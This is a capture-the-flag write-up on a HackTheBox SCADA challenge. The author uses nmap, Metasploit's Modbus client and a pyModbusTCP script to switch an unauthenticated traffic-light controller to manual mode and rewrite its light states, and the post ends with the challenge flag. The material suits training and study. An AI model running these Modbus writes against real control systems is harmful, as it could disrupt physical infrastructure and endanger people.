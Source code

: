 +++
date = "2021-11-24"
author = "biplavxyz"
title = "HackTheBox University CTF 2021 - LightTheWay - SCADA - Changing traffic lights with Metasploit and Python"
+++
Greetings everyone!  
This writeup is going to be about my best challenge from HackTheBox University Ctf 2021.  
This challenge was named `LightTheWay` from `SCADA` category. The goal of the challenge was to change the traffic lights to let the vehicle pass through all the stops. Nmap, and Metasploit were used for enumeration, and a python script was created to automate all of the monotonous steps.  

We were given an ip `10.129.96.95` and that was it.  

As with most challenges, the first step was `reconnaissance` using `nmap`.  
`nmap -sCV 10.129.96.95 -p 0-1000`  

From the nmap scan, port 22, 80, and 502 were found to be open. 
I skipped port `22` as it's almost impossible to break it. Next interesting port was port `80`.
  
![1](/scada1.png)
  
Checking port `80` showed a stopped vehicle, and different traffic lights on the top right corner with 6 junctions.  
  
![2](/scada2.png)
   
Also, there was a path highlighted in the `Human Machine Interface(HMI)` from where we had to move the vehicle to get the flag. 
 
`HMI` is basically a software that provides a user with graphical user interface to monitor or process commands in SCADA networks.  

As this was a `SCADA` related challenge, I started looking further onto port `502` as it's very poular port in SCADA systems for `modbus protocol`.  
So, it's time to dig deeper onto the `port 502`.  

Modbus operates as a `master-slave` architecture, which is basically like a `client-server` architecture. 
  
![3](/scada3.png)
   
In Modbus, `master` is like a client which sends a request to read or write, and `slave` is like a server which processes it, and provides output.  
Another thing to note about Modbus protocol is that it `does not have any sort of authentication` at any level of the protocol which makes it very vulnerable.  
 
Then, I fired up `metasploit` to do more enumeration.    
First command was `search modbus` to find all `modbus` related modules, which showed 6 matching modules.  
`auxiliary/scanner/scada/modbusclient` module seemed most interesting, so we went with it. 
   
![4](/scada4.png)
  
`use auxiliary/scanner/scada/modbusclient`  
`show info`  

After Checking for all options and info,it can be seen that we can read, and write data. `RHOST`, `RPORT`, and `DATA_ADDRESS` are required fields to be set.
  
![5](/scada5.png)
  
It can be set as follow:  
`set RHOST 10.129.96.95`
  
`set RPORT 502`
  
`set DATA_ADDRESS 0`  

`set NUMBER 0`

Also, if we take a look at `registers` for Modbus, `COIL` and `HOLDING_REGISTERS` are very interesting as they can be read and written easily.  
Here is how the registers look like in modbus protocol.  
  
![registers](/scada15.png)
 
If we have ability to read and write data, why not try it? Let's read what we can extract from there. So, I thought of reading the coils first to see how it looks like. It can be done with following command.  
 
`set action READ_COILS`
  
![6](/scada6.png)
  
Then, running the exploit reads the value of coils from `UNIT_NUMBER 1`.
We see a bunch of 0's, but interestingly there are also some `1's` in there.  
  
![7](/scada7.png)
  
Then, python can be used to find the index of first `1` in the list.
The first index was `571`.  

![8](/scada8.png)
  
Also, when I was setting the value `UNIT_NUMBER` with command `set UNIT_NUMBER 2`, `set UNIT_NUMBER 3` and so on, I was able to read coils only upto `UNIT_NUMBER 6`that had `1` somewhere in the output. Any `UNIT_NUMBER` beyond that didn't include `1`.  
That was interesting because there were `6 junctions` in the path. So, I was able to get index for all 6 junctions using similar approach. The `DATA_ADDRESS` index of all the six units were `571, 1921, 531,1267, 925, 888` respectively. All of this process is done by using python script later in the writeup.    

Now, it's time to write to the coils so that we can change the lights.  

When checking `http://10.129.96.95/api`, I was able to see the directions, and their corresponding coil values, but unfortunately the order of representation in the API doesn't match the actual order of directions. 
  
![9](/scada9.png)
   
It took us a while to figure it out, but we found out that the correct pattern to write was:  
`NG NY NR EG EY ER SG SY SR WG WY WR`  

![10](/scada2.png)
  
By looking at the picture, it's clear that we need to change the west side to green because the car is about to turn towards west for the first junction, and we have to turn the East side to Green for the 2nd and 4th junction, and finally the north side for 6th junction.  

But, to change the lights the challenge stated that `We need to revert the system to manual`. So, let's first find a way to change to manual mode.  
For this purpose, we have to read `HOLDING REGISTERS` to see what values are in there.  
Initially, I ran `set action READ_HOLDING_REGISTERS` and it showed me error `ILLEGAL DATA ADDRESS`. So, changing the value for `NUMBER` solved this issue.  
I used command `set NUMBER 99` to set the value of `NUMBER` to 99, then ran it, which gave me decimal encoded numbers.  
  
![10](/scada10.png)
  
I used a python script to decode it back to `ASCII` which evaluated to `auto_mode:true`.  

![11](/scada11.png)

```python
auto = [97, 117, 116, 111, 95, 109, 111, 100, 101, 58, 116, 114, 117, 101]

print("".join(chr(x) for x in auto))
```
So, by changing the string `true` to `false`, and writing it to the `HOLDING_REGISTERS` we were able to change the mode to `manual`.  
  
![12](/scada12.png)
  
Again, metasploit mode can be used to write to the `REGISTERS` with following commands:  
`set DATA_REGISTERS 97,117,116,111,95,109,111,100,101,58,102,97,108,115,101`  

`set action WRITE_REGISTERS`  

`run`
    
![13](/scada13.png)
  
Now, we can verify it did indeed set the `auto mode:false` by reading the register values again.  
  
![14](/scada14.png)
  
The register values have been modified. So, now we can write to the coils and change the color of traffic lights.  

Recalling that order of the lights is `NG NY NR EG EY ER SG SY SR WG WY WR`.  

Current value for junction 1 is:   
`[False, False, True, False, False, True, False, False, True, True, False, False]`  

which can be changed to:   
`[False, False, True, False, False, True, False, False, True, False, False, True]`  
which will turn on green light on the west side so that the vehicle can pass Junction 1.  

Similar process can be followed for other Junctions too.  
The placement of lights was kind of weird, and we had to play around for a while to make it all work.  

As this process was little bit tedious with `metasploit`, `pyModbusTCP` client can be used to make this process faster.    

Also, we had to perform trial and error for a while to change  `data address base index` for each units inorder to write successfully to the coils.

Here is the final script that we wrote to get the flag:
  
```python
from pyModbusTCP.client import ModbusClient
import requests
import json


data_address = {}

c = ModbusClient(host="10.129.96.95", port="502", unit_id=1, auto_open=True)


## Manual off

for i in range(1,7):
    c.unit_id(i)
    c.write_multiple_registers(10, [102,97,108,115,101])
    print(f"[+] Slave_id {i} set to manual mode" )

for i in range(1,7):
    c.unit_id(i)
    regs = c.read_coils(0,2000)

    data_address[i] = regs.index(True)
c.unit_id(1)
c.write_multiple_coils(571,[False, False, True, False, False, True, False, False, True, True, False, False])

c.unit_id(2)
c.write_multiple_coils(1920, [True, False, False, False, False, True,False, False, True, False, False, True])


c.unit_id(4)
c.write_multiple_coils(1266, [False, False, True, False, False, True,False, False, True, True, False, False])


c.unit_id(6)
c.write_multiple_coils(886,[False, False, True, False, False, True, False, False, True, True, False, False])

print(f"[+] pwn completed, Here's a gift for you!!")

print(json.loads(requests.get('http://10.129.96.95/api').text)['flag'])
```

  
![15](/scada_flag.gif)
And, **PWNED**    
Flag is: `HTB{w3_se3_tH3_l1ght}`

Thank you for reading.  
Let's Keep learning :)  

> - <cite>CarpeDiem</cite>
